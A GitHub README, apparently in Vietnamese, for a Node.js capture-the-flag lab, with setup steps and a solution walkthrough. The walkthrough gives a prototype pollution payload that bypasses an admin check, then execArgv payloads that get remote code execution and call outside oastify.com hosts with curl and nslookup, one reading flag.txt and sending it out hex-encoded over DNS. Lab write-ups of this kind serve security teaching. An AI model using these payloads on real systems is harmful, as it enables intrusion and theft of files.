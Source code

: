 # RESEARCH03


## Installation

Git clone repo
```
git clone https://github.com/brocked200/RESEARCH03.git
```

Di chuyển vào thư mục RESEARCH03
```
cd RESEARCH03
```

Build và chạy
```
sudo docker-compose up --build
```


## Usage

Sau khi build và chạy thành công, sẽ có thông báo hiển thị:
```
nodejs   | Server started on port 3000 
nodejs   | Connected to MySQL
```

![image](https://user-images.githubusercontent.com/52159161/228818947-820b6d6d-6490-4aeb-877e-cece22dc1fd6.png)

Truy cập vào localhost:3000 sẽ thấy giao diện web


## Bug

Nếu bị lỗi `Table 'ctf_prototypePollution.users' doesn't exist` khi chạy chương trình
>
Tạo cấu trúc database thủ công bằng command sau:
```bash
sudo docker exec -i mysql-nodejs mysql -uroot -p123123 ctf_prototypePollution < /home/khanh/Desktop/ctf_prototypePollution/db/init.sql 
```
Lưu ý: Thay đổi đường dẫn file sql `/home/khanh/Desktop/ctf_prototypePollution/db/init.sql `



# Đề CTF
## Ý tưởng
Sử dụng lỗ hổng Prototype Pollution trên server side để bypass phần kiểm tra admin trong chức năng thêm ghi chú. Sau đó thay đổi payload để tiến hành RCE để lấy flag.

## Cách giải
- Đầu tiên đăng ký tài khoản, sau đó login vào lab.
- Ban đầu sẽ không thể tạo ghi chú vì back-end sẽ kiểm tra quyền có phải là 'admin' không.
![image](https://user-images.githubusercontent.com/52159161/228821369-227de1c0-ef08-4593-a98f-b74b09c528a9.png)

- Chỉ được phép submit thuộc tính content, khi tiến hành thêm thuộc tính khác sẽ báo lỗi.
![image](https://user-images.githubusercontent.com/52159161/228822956-01b6e998-603b-4f6a-a605-b7d2a2b51910.png)

- Nhưng người chơi có thể bypass bằng cách sử dụng `__proto__` để tiến hành ô nhiễm prototype trên server.
Sẽ không còn thông báo lỗi "Chỉ được phép submit thuộc tính content"
![image](https://user-images.githubusercontent.com/52159161/228823203-a021d7c9-d692-4a73-80c0-2752816f6a75.png)

- Người chơi cần tìm đường dẫn source bị lộ trong robots.txt. Có đường dẫn khả nghi là `/s0uRcE`
![image](https://user-images.githubusercontent.com/52159161/228821652-47205b3c-53d9-41e9-84d5-fa49ebde172c.png)

- Sau khi truy cập vào `/s0uRcE`, thông tin về source của chức năng post notes sẽ được giấu trong trong phần ghi chú html
![image](https://user-images.githubusercontent.com/52159161/228821956-8374ef27-1753-4d7f-ac42-a301e9db7502.png)

- Từ đó người chơi sẽ biết được phần kiểm tra quyền admin là lấy thuộc tính role từ session.user.role so sánh giá trị role có phải là 'admin' hay không!
- Và xây dựng payload để ô nhiễm prototype role như sau:
```
"__proto__":{"session":{"user":{"role":"admin"}}}
```
Thành công bypass được phần kiểm tra quyền admin. Vì insert bị lỗi nên tiếp tục xem source code.
![image](https://user-images.githubusercontent.com/52159161/228823715-e2519702-b6ea-4837-8904-6ef60a19ca20.png)

- Sau khi đọc source code , người chơi sẽ thấy khi query insert ghi chú bị lỗi sẽ vào thực hiện code có gọi `execArgv` để thực hiện command gì đó.
![image](https://user-images.githubusercontent.com/52159161/228824432-82336614-72cb-4ac4-8050-1a536778bb5d.png)

- Và người chơi sẽ xây dụng được payload để thực hiện RCE out-of-band ra bên ngoài như sau:
```
"__proto__":{
"execArgv": [
"node -e \"require('child_process').execSync('curl https://1jlgxx6r7df3u8j4hocv3l2ygpmga6yv.oastify.com')\""
]
}
```
![image](https://user-images.githubusercontent.com/52159161/228824685-8d529bc3-95c3-46be-95f0-b7fffb000dbd.png)

- Nếu thành công sẽ có truy vấn tới burp collab
![image](https://user-images.githubusercontent.com/52159161/228825080-1dfd9a92-303e-4a9a-a8c7-a6986a6c1974.png)

- Vì cơ chế DNSSEC (Domain Name System Security Extensions) do đó khi truy vấn các kí tự chuỗi nhận được sẽ ngầu nhiên hoa thường khác nhau trong mỗi lần truy vấn. Do đó người chơi cần thêm command đưa output về hex sau đó cắt chuỗi hex đó (nếu dài quá) và gộp từng chuỗi hex lại . Đưa tất cả chuỗi hex đó về in thường và decode hex sẽ ra được flag. 
Command hint:
```
"__proto__": {
"execArgv": [
"node -e \"require('child_process').execSync('nslookup `cat flag.txt | xxd -p | tr -d '\n' | cut -c 1-60`.wzzftl7lgj1zmh6z0g5j7xxp5gb7z8nx.oastify.com')\""
]
}
```
Thay đổi cut -c thành 61-120 để tiến hành lấy đoạn hex còn thiếu.
